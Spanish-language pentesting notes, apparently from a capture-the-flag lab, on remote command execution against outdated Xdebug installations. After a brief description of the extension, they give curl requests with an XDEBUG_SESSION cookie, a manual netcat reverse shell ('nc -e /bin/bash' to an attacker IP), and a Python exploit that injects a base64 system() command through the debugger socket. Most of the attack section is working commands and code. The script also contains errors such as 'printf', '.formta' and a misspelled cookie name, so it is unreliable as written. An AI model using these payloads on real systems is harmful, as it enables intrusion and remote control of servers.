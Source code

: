 Xdebug es una extensión de PHP que proporciona la capacidad de depuración código y errores. Utiliza DBGp que es protocolo de depuración simple que se usa para comunicar el motor de depuración propio de php con un cliente, normalmente un IDE.

La información que Xdebug puede proporcionar es la siguiente:

-   Se puede apilar rastros de mensajes de error con:
    -   Exhibición de parámetro lleno para usuaria definió funciones
    -   Nombre de función, nombre de archivo e indicaciones de línea
    -   Soporte para funciones de miembro

-   Información de la memoria asignada.
-   Protección para recursiones infinitas
-   profiling Información para guiones de PHP
-   Análisis de cobertura del código
-   Capacidades para depurar vuestros guiones interactivamente con un frente de depurador-fin.


** Ataque sobre Xdebug **
https://github.com/mikaelkall/exploits/tree/master/php/xdebug_rce

Una versión desactualizada de Xdebug permite la ejecución remota de comandos (RCE). Esta vulnerabilidad principalmente es utilizada para que el equipo afectada realice una comunicación con un equipo remoto. 

Pasos del ataque:
1.- El exploit nos abre un socket en la máquina local atacante, con el puerto 9000 en escucha. 
	Realiza una petición al servidor objetivo vulnerable con un parámetro en la cabecera:
	'Cookie' : 'XDEBUG_SESSION=' + rand_text_alphanumeric(10)
2.- El servidor al recibir la petición con la cabecera XDebug lanza una petición al puerto 9000 
	donde tenemos el socket abierto por el exploit.
	Ejemplo de petición con curl:
	`curl http://10.10.10.83/index.php -H "Cookie: XDEBUG_SESSION=loquesea"`
3.- Sobre el socket abierto vemos que utiliza la función eval() de php, ampliamente conocida 							
	por ser vulnerable para mandar desde el socket una data encodeada en base64. Esta data 		puede ser introducida por el atacante.
	Si revisamos el código de metasploit, vemos que utiliza la función system() para enviar comandos del sistema encapsulado en la función eval() de php.
4.- En la ventana donde se ejecuta el socket abierto podemos introducir:
	`system("whoami")`
5.- En otra ventana hacemos la petición al servicio vulnerable:
	`curl http://10.10.10.83/index.php -H "Cookie: XDEBUG_SESSION=loquesea"`
6.- En esta última ventana recibimos el resultado de la ejecución "whoami".

Resumen:
	Cuando se le hace una petición con la cabecera XDebug al servicio vulnerable, este conecta con el socket que tenemos en el puerto 9000. Como en este socket podemos mandar comandos, estos comandos son ejecutados por el servidor vulnerable y devueltos en la petición de la consulta.
	
	
 ** Obtener una reverse-shell de forma manual **
1.- Puerto en escucha en local con netcat --> `rlwrap nc -nlvp 443`
2.- Comando sobre el socket --> `system("nc -e /bin/bash 10.10.14.55 443")`
3.- Petición al servicio web con cabecera XDebug --> `curl http://10.10.10.83/index.php -H "Cookie: XDEBUG_SESSION=loquesea"`


** Exploit mejorado para vulnerabiidad XDebug **
```
#/usr/bin/python3

import socket, requests, sys
from base64 import b64encode

if len(sys.argv) != 2:
	printf("\n[*] Uso: python3 {} <puerto>\n".format(sys.argv[0]))
	sys.exit(1)
	
ip = "10.10.14.55"
port = sys.argv[1]

#Start listener

local_ip = "0.0.0.0"
local_port = 9000

printf("\n[*] Starting listener on {}:{}".format(local_ip, local_port))

sk = socket.socket()
sk.bind((local_ip, local_port))
sk.listen(10)

print("\n[*] Listening...")
print("\n[*] Sending request... \n")

try:
	r = requests.get("http://10.10.10.83/index.php", headers={"Cookie":"XDEBUG_SESSSION=s4vitar"}, timeout=2)
except:
	pass
	
#Catch callback

conn, addr = sk.accept()
client_data = conn.recv(1024)

printf("\n[*] Connection received from {}:{} on port {}".formta(addr[0], addr[1], local_port))

cmd = 'system("nc -e /bin/bash {} {}")'.format(ip, port).encode('utf-8')

conn.sendall(('eval -i 1 -- %s\x00' % b64encode(cmd).decode('utf-8')).encode('utf-8'))

sk.close()
conn.close()

```



